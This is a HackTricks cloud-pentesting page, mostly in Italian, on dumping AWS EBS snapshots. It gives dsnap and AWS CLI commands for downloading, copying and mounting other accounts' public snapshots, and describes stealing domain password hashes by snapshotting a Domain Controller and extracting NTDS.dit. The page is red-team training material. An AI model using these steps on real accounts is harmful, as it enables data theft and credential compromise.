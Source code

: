 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## Controllare uno snapshot localmente
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Nota** che `dsnap` non ti permetterà di scaricare snapshot pubblici. Per aggirare questo, puoi fare una copia dello snapshot nel tuo account personale e scaricare quello:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Per ulteriori informazioni su questa tecnica, controlla la ricerca originale in [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Puoi farlo con Pacu utilizzando il modulo [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Controllare uno snapshot in AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Montalo in una VM EC2 sotto il tuo controllo** (deve essere nella stessa regione della copia del backup):

Passo 1: Deve essere creato un nuovo volume della dimensione e tipo preferiti andando su EC2 –> Volumi.

Per poter eseguire questa azione, segui questi comandi:

* Crea un volume EBS da allegare all'istanza EC2.
* Assicurati che il volume EBS e l'istanza siano nella stessa zona.

Passo 2: L'opzione "allega volume" deve essere selezionata facendo clic destro sul volume creato.

Passo 3: L'istanza dalla casella di testo dell'istanza deve essere selezionata.

Per poter eseguire questa azione, usa il seguente comando:

* Allegare il volume EBS.

Passo 4: Accedi all'istanza EC2 e elenca i dischi disponibili usando il comando `lsblk`.

Passo 5: Controlla se il volume ha dati usando il comando `sudo file -s /dev/xvdf`.

Se l'output del comando sopra mostra "/dev/xvdf: data", significa che il volume è vuoto.

Passo 6: Format il volume nel filesystem ext4 usando il comando `sudo mkfs -t ext4 /dev/xvdf`. In alternativa, puoi anche usare il formato xfs usando il comando `sudo mkfs -t xfs /dev/xvdf`. Si prega di notare che dovresti usare o ext4 o xfs.

Passo 7: Crea una directory a tua scelta per montare il nuovo volume ext4. Ad esempio, puoi usare il nome "newvolume".

Per poter eseguire questa azione, usa il comando `sudo mkdir /newvolume`.

Passo 8: Monta il volume nella directory "newvolume" usando il comando `sudo mount /dev/xvdf /newvolume/`.

Passo 9: Cambia directory nella directory "newvolume" e controlla lo spazio su disco per convalidare il montaggio del volume.

Per poter eseguire questa azione, usa i seguenti comandi:

* Cambia directory in `/newvolume`.
* Controlla lo spazio su disco usando il comando `df -h .`. L'output di questo comando dovrebbe mostrare lo spazio libero nella directory "newvolume".

Puoi farlo con Pacu usando il modulo `ebs__explore_snapshots`.

## Controllare uno snapshot in AWS (usando cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Qualsiasi utente AWS in possesso del permesso **`EC2:CreateSnapshot`** può rubare gli hash di tutti gli utenti del dominio creando un **snapshot del Domain Controller**, montandolo su un'istanza che controllano e **esportando il file NTDS.dit e il registro SYSTEM** per l'uso con il progetto secretsdump di Impacket.

Puoi utilizzare questo strumento per automatizzare l'attacco: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) oppure potresti utilizzare una delle tecniche precedenti dopo aver creato uno snapshot.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
